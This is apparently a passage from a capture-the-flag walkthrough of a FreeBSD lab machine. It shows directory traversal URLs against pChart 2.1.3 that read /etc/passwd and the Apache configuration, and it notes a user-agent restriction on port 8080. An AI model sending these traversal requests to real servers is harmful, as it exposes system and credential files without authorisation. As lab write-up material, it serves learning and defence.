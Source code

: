   * Web server on port 80
  * Web server on port 8080 (Proxy?)
  * Victim's OS is FreeBSD

---

## 2\. Web server port 80

```
It works!
```
 
Uhh, well I'm glad it does. Checking the source code was worth it.  

```html    
<head>  
  <!--  
  <META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php">  
  -->  
 </head>  
  
 <body>  
  <h1>It works!</h1>  
 </body>
```
  
Hitting `/pChart2.1.3/index.php` shows some charting tool. After searching for the tool's name on searchsploit, it showed that it's vulnerable to LFI.  

Example:  

```
http://192.168.1.68/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd  
```    

  
After poking around for a while I wasn't able to find anything useful, what's the next step? For that, let's see what we currently know.  
  
1\. Victim runs FreeBSD, so many important files could be under different paths.  
2\. Port 8080 returns a 403, what's preventing us from accessing the page?  
  
Since we have an LFI and we know that the server is running Apache, let's search for the apache config file. After checking this, I managed to find the `httpd.config` file.  

```
http://192.168.1.68/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf  
```    

  
Particularly interesting snippet:  

```apache
SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser  
  
<VirtualHost *:8080>  
    DocumentRoot /usr/local/www/apache22/data2  
  
 <Directory "/usr/local/www/apache22/data2">  
  Options Indexes FollowSymLinks  
  AllowOverride All  
  Order allow,deny  
  Allow from env=Mozilla4_browser  
 </Directory>  
  
</VirtualHost>  
```
